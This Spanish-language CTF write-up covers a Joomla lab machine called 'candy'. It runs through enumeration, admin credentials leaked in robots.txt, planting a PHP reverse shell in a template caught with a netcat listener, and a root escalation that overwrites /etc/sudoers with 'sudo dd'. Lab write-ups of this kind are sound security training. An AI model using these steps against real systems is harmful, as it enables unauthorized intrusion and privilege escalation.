# Máquina candy

---

Dificultad -> Fácil

---

Empezamos con nmap para listar puertos abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
| http-robots.txt: 17 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

Vemos uicamente el puerto 80 asi que entro desde el navegador



Se ve una especie de blog con un login, que, después de probar, no es vulnerable a sql injection.

Con gobuster busco otros archivos y directorios en la página

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/media                (Status: 301) [Size: 308] [--> http://172.17.0.2/media/]
/templates            (Status: 301) [Size: 312] [--> http://172.17.0.2/templates/]
/modules              (Status: 301) [Size: 310] [--> http://172.17.0.2/modules/]
/index.php            (Status: 200) [Size: 7515]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/plugins              (Status: 301) [Size: 310] [--> http://172.17.0.2/plugins/]
/includes             (Status: 301) [Size: 311] [--> http://172.17.0.2/includes/]
/language             (Status: 301) [Size: 311] [--> http://172.17.0.2/language/]
/README.txt           (Status: 200) [Size: 4942]
/components           (Status: 301) [Size: 313] [--> http://172.17.0.2/components/]
/api                  (Status: 301) [Size: 306] [--> http://172.17.0.2/api/]
/cache                (Status: 301) [Size: 308] [--> http://172.17.0.2/cache/]
/libraries            (Status: 403) [Size: 275]
/robots.txt           (Status: 200) [Size: 812]
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 310] [--> http://172.17.0.2/layouts/]
/tmp                  (Status: 301) [Size: 306] [--> http://172.17.0.2/tmp/]
/administrator        (Status: 301) [Size: 316] [--> http://172.17.0.2/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 6456]
/cli                  (Status: 301) [Size: 306] [--> http://172.17.0.2/cli/]
```

Encuentra varias cosas, despues de mirar algunos encuentro un login al panel de administración en /administrator y algo interesante el el /robots.txt



Abajo del todo en el /robots.txt se pueden ver unas credenciales de admin, tabién se puede ver un directorio /un_caramelo que si entramos y miramos el codigo fuente encontramos las mismas credenciales



Estas credenciales no funcionan, parece que la contraseña está codificada en base64, si la decodificamos, nos sale lo siguiente:



Con esta contraseña, ya si que podemos entrar al panel de administración



Una vez aquí dentro, nos podemos ir a system



Site templates



Cassiopeia



Y creamos un nuevo archivo llamado shell.php



Y dentro ponemos una revshell de [revhsells.com](https://www.revshells.com/)

Ahora entramos a `http://172.17.0.2/templates/cassiopeia/shell.php` mientras escuchamos en nuestra máquina `nc -lvnp 4444` 



Y ya estamos dentro, antes de hacer nada, hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para operar comodamente.

Pruebo con **`sudo -l`** pero pide contraseña asi que prueo a buscar binarios con permiso SUID **`find / -perm -4000 2>/dev/null`** pero tampoco nada



Buscando un poco me encunetro con otro_caramelo.txt en /var/backups/hidden



Aquí se pueden ver una base de datos con las credenciales de luisillo.

Con **`su luisillo`** y la contraseña escalo a luisillo

Vuelvo a hacer un **`sudo -l`**, ahora como luisillo y encuentro el binario dd



Mirando en [GTFOBins](https://gtfobins.github.io/gtfobins/dd/#sudo) veo que no puedo escalar a root pero puedo ver y editar atchivos protegidos, sabiendo esto, edito el archivo sudoers para poder abrir una bash como root con el usuario luisillo:

```shell
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL) NOPASSWD: /bin/bash" | sudo dd of=$LFILE
```

Luego hago **`sudo /bin/bash`** 



Y somos root :)
